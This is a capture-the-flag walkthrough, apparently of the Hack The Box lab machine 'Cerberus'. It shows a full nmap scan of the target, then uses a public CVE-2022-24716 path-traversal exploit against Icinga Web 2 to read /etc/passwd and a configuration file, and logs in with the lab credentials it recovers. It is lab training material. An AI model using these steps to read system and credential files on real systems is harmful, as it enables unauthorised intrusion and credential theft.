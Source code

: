 <h2>Recon</h2>

<h3>PortScanning</h3>

>command: sudo nmap -A 10.10.11.205  -T4  -v -p-

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-25 12:12 WAT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:12
Completed NSE at 12:12, 0.00s elapsed
Initiating NSE at 12:12
Completed NSE at 12:12, 0.00s elapsed
Initiating NSE at 12:12
Completed NSE at 12:12, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 12:12
Completed Parallel DNS resolution of 1 host. at 12:12, 0.02s elapsed
Initiating SYN Stealth Scan at 12:12
Scanning 10.10.11.205 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.205
SYN Stealth Scan Timing: About 3.26% done; ETC: 12:28 (0:15:19 remaining)
SYN Stealth Scan Timing: About 10.70% done; ETC: 12:22 (0:08:29 remaining)
SYN Stealth Scan Timing: About 23.27% done; ETC: 12:19 (0:05:00 remaining)
SYN Stealth Scan Timing: About 38.98% done; ETC: 12:18 (0:03:09 remaining)
SYN Stealth Scan Timing: About 53.43% done; ETC: 12:17 (0:02:12 remaining)
SYN Stealth Scan Timing: About 66.97% done; ETC: 12:17 (0:01:29 remaining)
SYN Stealth Scan Timing: About 77.94% done; ETC: 12:18 (0:01:12 remaining)
Completed SYN Stealth Scan at 12:17, 297.65s elapsed (65535 total ports)
Initiating Service scan at 12:17
Scanning 1 service on 10.10.11.205
Completed Service scan at 12:18, 6.42s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 10.10.11.205
Retrying OS detection (try #2) against 10.10.11.205
Initiating Traceroute at 12:18
Completed Traceroute at 12:18, 0.23s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 12:18
Completed Parallel DNS resolution of 2 hosts. at 12:18, 0.03s elapsed
NSE: Script scanning 10.10.11.205.
Initiating NSE at 12:18
Completed NSE at 12:18, 5.19s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.77s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Nmap scan report for 10.10.11.205
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 4.X|5.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
Aggressive OS guesses: Linux 4.15 - 5.6 (85%), Linux 5.0 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 7.418 days (since Sat Mar 18 02:16:12 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   214.97 ms 10.10.14.1
2   215.10 ms 10.10.11.205

NSE: Script Post-scanning.
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 315.73 seconds
           Raw packets sent: 131344 (5.783MB) | Rcvd: 2048 (459.283KB)
```
From the above scan we have only one port open and that is port 8080 which runs http. So, our enumeration will be focused on this port.


<h2>Enumeration</h2>

Navigating to the webpage you get this

![image](https://user-images.githubusercontent.com/67879936/227715205-7f053439-d3a7-485c-93cd-06c715d7ada9.png)

so we'll be adding ```cinga.cerberus.local``` to our ```/etc/hosts``` file.

![image](https://user-images.githubusercontent.com/67879936/227715292-ca2816d4-9f74-407d-b32f-b0cd41c4bda5.png)

cool, now lets refresh that webpage

![image](https://user-images.githubusercontent.com/67879936/227715321-5aef8a5d-0a36-47e8-a52b-96542646737c.png)

we get this login page. Lets go look for exploits

![image](https://user-images.githubusercontent.com/67879936/227716739-37258491-9206-4d74-926c-e8fb78280884.png)

We found one, ```path transversal vulnerability```. Lets go ahead and exploit this



<h2>Exploitation</h2>

Link:https://github.com/JacobEbben/CVE-2022-24716

Download this to your machine

![image](https://user-images.githubusercontent.com/67879936/227716867-c31f29b1-6b1a-467b-8a21-c089d3d916dd.png)

those parameters are needed to make this exploit work

Lets try reading the ```/etc/passwd``` file

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/cerberus/CVE-2022-24716]
└─$ python exploit.py  http://icinga.cerberus.local:8080/icingaweb2/ /etc/passwd
/home/bl4ck4non/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.8) or chardet (5.1.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin
```
cool, we can view the ```/etc/passwd``` file. Lets go ahead to look for credentials we can use for the login page we found earlier. I found one in the ```/etc/icingaweb2/resources.ini``` dirrectory

![image](https://user-images.githubusercontent.com/67879936/227718564-9db860da-405d-4d8e-bc52-696356bf6898.png)

so with this we can now log in

```username:matthew```                     ```password:IcingaWebPassword2023```

![image](https://user-images.githubusercontent.com/67879936/227718630-3ce4fb45-3bb0-4c51-b1b3-b4131bbdd8ff.png)
![image](https://user-images.githubusercontent.com/67879936/227718639-bf7737b4-b221-4e0b-b7ec-8721d09ba5d8.png)

cool, we are logged in.
































